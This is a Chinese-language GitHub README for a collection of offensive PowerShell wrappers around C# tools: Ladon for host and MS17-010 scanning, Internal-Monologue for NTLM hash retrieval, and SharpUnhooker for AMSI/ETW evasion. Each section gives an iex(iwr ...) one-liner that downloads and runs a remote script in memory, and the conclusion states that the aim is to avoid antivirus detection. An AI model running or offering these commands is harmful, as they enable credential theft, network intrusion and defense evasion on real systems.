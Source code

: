 



## 前言：
windows平台上许多攻击性武器都是由C#编写的，并且可以轻松地转为powershell脚本，我将这个仓库作为一个集合，用来储存OffensiveCsharp的powershell代码
# 1.Invoke-Ladon
之前使用Ladon的Powershell版本的时候似乎不能把扫描内容输出到txt文本中，因此我对它做了一点小小的修改。

使用Gzip-compress 和 base64-Encode 转换Ladon的二进制文件然后base64编码解码 并通过[System.Reflection.Assembly]::Load($DecompressedDecodedBinary)在powershell中加载Ladon的二进制文件
## 使用方法：

注意参数中需要加双引号



#### 1.扫描在线主机

```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 OnlinePC" > OnlinePC.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330353-73fb556c-b59b-43e9-a3ac-bc3e28d15644.png)




#### 2.扫描漏洞MS17017



```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 MS17010" > MS17010.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330367-387b676a-6a4c-4ea9-951d-56aac29229e4.png)




具体使用方法请参考：https://github.com/k8gege/Ladon

或者直接把调用命令放在脚本最后一行

![image](https://user-images.githubusercontent.com/89376703/197330378-fff9e947-3c5e-47b8-b4ae-02576fdee671.png)
# 2.Invoke-Internalmonologue

Internalmonologue

Internalmonologue：在不接触 LSASS 的情况下检索 NTLM 哈希:https://github.com/eladshamir/Internal-Monologue

用法：
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-SharpOffensive/main/Invoke-Internalmonologue.ps1)
```

# 2.Invoke-SharpUnhook.ps1
SharpUnhook用于规避AMSI的内存检测、ETW的监控同时hook了ring3的API，或许它仍然会被高级防病毒检测，
这只是一个例子，不要依赖它:https://github.com/GetRektBoy724/SharpUnhooker

用法：
远程加载
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-SharpOffensive/main/Invoke-SharpUnhook.ps1)
```
本地加载

```
Import-Module .\Invoke-SharpUnhook.ps1
```
![image](https://user-images.githubusercontent.com/89376703/200115967-953b394b-90ad-477c-b12c-7370c73fe667.png)



### 总结

使用某些方法可以封装powershell的脚本，让powershell在内存中运行，以此规避一些防病毒软件的查杀，这样就防止从Ladon的源码进行免杀处理的操作,对于powershell的免杀，有时候还要考虑规避AMSI的问题。
